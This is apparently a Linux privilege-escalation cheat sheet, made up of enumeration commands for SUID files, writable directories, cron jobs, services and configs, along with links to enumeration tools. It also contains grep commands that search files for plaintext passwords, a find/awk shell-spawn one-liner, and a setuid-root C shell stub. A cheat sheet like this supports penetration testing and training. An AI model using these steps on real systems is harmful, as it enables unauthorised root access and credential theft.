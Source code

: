 #### Check kernel version
- uname -a

#### Environmental variables
- cat /etc/profile
- cat /etc/bashrc
- cat ~/.bash_profile
- cat ~/.bashrc
- cat ~/.bash_logout

#### Check common location for user installed software
- /usr/local/
- /usr/local/src
- /usr/local/bin
- /opt/
- /home
- /var/
- /usr/src/

#### Available services
- netstat -anlp
- netstat -ano

#### Running services
- ps aux | grep root
- ps -ef | grep root
- top
- cat /etc/services

#### Plain text usernames and/or password
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

#### Unmounted filesystem
- mount -l
- cat /etc/fstab

#### Access to more binaries
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null

#### Find 
- find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#### Find world writable files
- find / -writable -type d 2>/dev/null
- find / -perm -222 -type d 2>/dev/null
- find / -perm -o w -type d 2>/dev/null
- find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

##### Find world writable folder
- find / -perm -o x -type d 2>/dev/null

##### Find world writable and executable folders
- find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#### Execute file as root
- sudo -l

#### Installed apps
- ls -alh /usr/bin/
- ls -alh /sbin/
- dpkg -l
- rpm -qa
- ls -alh /var/cache/apt/archivesO
- ls -alh /var/cache/yum/

#### Services misconfigured
- cat /etc/syslog.conf
- cat /etc/chttp.conf
- cat /etc/lighttpd.conf
- cat /etc/cups/cupsd.conf
- cat /etc/inetd.conf
- cat /etc/apache2/apache2.conf
- cat /etc/my.conf
- cat /etc/httpd/conf/httpd.conf
- cat /opt/lampp/etc/httpd.conf
- ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

#### World writable directories
- /tmp
- /var/tmp
- /dev/shm
- /var/spool/vbox
- /var/spool/samba

#### Cronjobs
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- ls -alh -R /etc/cron*

#### Create usefull C file
int main()
{
  setuid(0);
  setgid(0);
  execl("/bin/sh", "sh", 0)
}

#### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration

#### 6) Enumerate /var directory and uncommon files and directory names

